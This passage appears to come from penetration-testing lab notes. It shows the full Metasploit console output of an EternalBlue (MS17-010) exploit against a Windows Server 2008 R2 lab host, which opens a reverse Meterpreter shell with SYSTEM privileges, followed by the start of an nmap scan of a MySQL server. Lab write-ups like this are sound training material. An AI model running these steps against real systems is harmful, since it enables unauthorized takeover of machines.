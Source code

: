```bash
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.22.2:4444 
[*] 10.4.18.58:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.4.18.58:445        - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] 10.4.18.58:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.4.18.58:445 - The target is vulnerable.
[*] 10.4.18.58:445 - Connecting to target for exploitation.
[+] 10.4.18.58:445 - Connection established for exploitation.
[+] 10.4.18.58:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.4.18.58:445 - CORE raw buffer dump (51 bytes)
[*] 10.4.18.58:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.4.18.58:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 10.4.18.58:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 10.4.18.58:445 - 0x00000030  6b 20 31                                         k 1             
[+] 10.4.18.58:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.4.18.58:445 - Trying exploit with 12 Groom Allocations.
[*] 10.4.18.58:445 - Sending all but last fragment of exploit packet
[*] 10.4.18.58:445 - Starting non-paged pool grooming
[+] 10.4.18.58:445 - Sending SMBv2 buffers
[+] 10.4.18.58:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.4.18.58:445 - Sending final SMBv2 buffers.
[*] 10.4.18.58:445 - Sending last fragment of exploit packet!
[*] 10.4.18.58:445 - Receiving response from exploit packet
[+] 10.4.18.58:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.4.18.58:445 - Sending egg to corrupted connection.
[*] 10.4.18.58:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.4.18.58
[+] 10.4.18.58:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.4.18.58:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.4.18.58:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 3 opened (10.10.22.2:4444 -> 10.4.18.58:50156 ) at 2024-02-12 00:54:04 +0530

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```



---

#### Targeting MySQL Database Server    



```bash
root@attackdefense:~# nmap 10.4.26.40 -p3306 -sV
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-12 01:13 IST
Nmap scan report for demo.ine.local (10.4.26.40)
Host is up (0.0095s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.20-log

```

